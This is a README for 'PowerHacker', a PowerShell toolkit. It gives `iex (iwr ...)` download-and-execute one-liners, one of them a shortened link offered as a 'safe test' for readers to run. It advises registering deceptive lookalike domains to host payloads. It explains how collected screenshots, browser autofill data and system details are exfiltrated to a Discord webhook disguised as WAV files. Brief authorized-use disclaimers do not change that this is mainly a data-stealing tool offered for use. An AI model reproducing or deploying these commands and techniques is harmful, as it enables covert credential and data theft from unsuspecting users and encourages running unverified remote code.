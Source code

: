 
# PowerHacker :zap: README

Welcome to PowerHacker, a PowerShell-based toolkit designed for penetration testers and cybersecurity professionals. PowerHacker prefers utilizing valuable Top-Level Domains (TLDs) and the setup of subdomains to facilitate efficient red team operations and security assessments.

- A simple command like `iex (iwr calculator.run)` is enough to give full control over a windows system. 

## :lock: Security Notice

Security and ethical use are paramount. PowerHacker is intended for **authorized penetration testing** and/or **educational purposes only**. Misuse of PowerHacker may result in legal consequences. Ensure you have explicit permission to test target systems with PowerHacker.

## Safe test scripts: Try run either of these in a command prompt or powershell respectively:
- (It will open your default browser across all your monitors to hypnotoad in kiosk mode)
1. In Powershell:
  - `iex (iwr t.ly/YUz2A)`

2. In CMD or press Windows key + R:
  - `powershell iex (iwr t.ly/YUz2A)`

## :gear: Setup

To leverage PowerHacker for your assessments:

1. Clone the repository:
    ```
    git clone https://github.com/pentestfunctions/powerhacker.git
    ```

2. Navigate to the PowerHacker directory:
    ```
    cd powerhacker
    ```

3. Update the `$WebhookUrl` in the scripts to point to your Discord webhook for data exfiltration. To get a Discord webhook URL:
    - Create a Discord server or use an existing one.
    - Go to Server Settings > Integrations.
    - Click on "Webhooks" and then "New Webhook".
    - Customize your webhook, copy the URL, and use it in the script.

4. Upload the ps1 file to your github account.

5. Register a domain for best outcome, for example:
   - `fileexplorer.run`
   - You can also then add subdomains such as `windows.fileexplorer.run`
   - Some other good TLD ideas: `software` such as `microsoft.sofware` or `calculator.run`

## :rocket: Usage

PowerHacker simplifies the redirection of subdomains to your raw GitHub page containing the PowerShell code. To execute, use:

```
iex (iwr windows.fileexplorer.run)
```

This command downloads and executes the script, uploading all collected data to the specified Discord webhook.

- Once the files are on your discord webhook, you can decode the .wav data using the code here:
https://github.com/pentestfunctions/powershell-document-to-wav

## :warning: Features

- **TakeScreenshot**: Captures the current screen.
- **Convert-JsonToWav**: Converts JSON data to WAV format.
- **Get-BrowserData-AutoFill**: Extracts autofill information from browsers.
- **Comprehensive System Info**: Collects detailed system information, including OS version, build number, and more.

## :key: Emphasis on Security

- Always ensure you are in compliance with all applicable laws and regulations.
- Use PowerHacker responsibly to enhance security posture, not to undermine it.
- Verify the integrity and confidentiality of the data collected during your assessments.

## :question: Support

For questions, issues, or feature requests, use GitHub Issues within the repository.

## :memo: Contributing

Contributions to PowerHacker are welcome. Please submit pull requests with clear descriptions of changes and enhancements.

## :balance_scale: License

PowerHacker is released under [MIT License](LICENSE). By using PowerHacker, you agree to the terms of the license and acknowledge the tool's intended purpose for legal, authorized cybersecurity assessments only.
